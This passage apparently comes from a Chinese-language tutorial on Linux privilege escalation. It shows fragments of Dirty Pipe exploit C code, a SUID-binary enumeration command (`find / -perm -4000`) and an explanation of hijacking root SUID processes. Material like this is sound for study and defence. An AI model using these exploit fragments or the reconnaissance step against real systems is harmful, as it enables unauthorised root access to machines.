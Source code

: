       137.         if ((size_t)nbytes < data_size) {
    
      138.                 fprintf(stderr, "short write\n");
    
      139.                 return EXIT_FAILURE;
    
      140.         }
    
      141.         return EXIT_SUCCESS;
    
      142. }
    
    
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175316.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175317.png)

  * 通过劫持拥有 root 权限的 SUID 进程，进行提权。

    * SUID:允许用户执行的文件以该文件的拥有者身份执行。

    
          1. find / -perm -4000 2>/dev/null   //搜索具有suid权限的文件
    
    
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175318.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175319.png)

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    
      5. #include <stdlib.h>
    
      6. #include <string.h>
    
      7. #include <sys/stat.h>
    
      8. #include <sys/user.h>
    
      9.   10. #ifndef PAGE_SIZE
    
      11. #define PAGE_SIZE 4096
    
      12. #endif 
    
      13.   14. /**
    
      15.  * Create a pipe where all "bufs" on the pipe_inode_info ring have the
    
      16.  * PIPE_BUF_FLAG_CAN_MERGE flag set.
    
      17.  */
    
      18. static void prepare_pipe(int p[2])
    
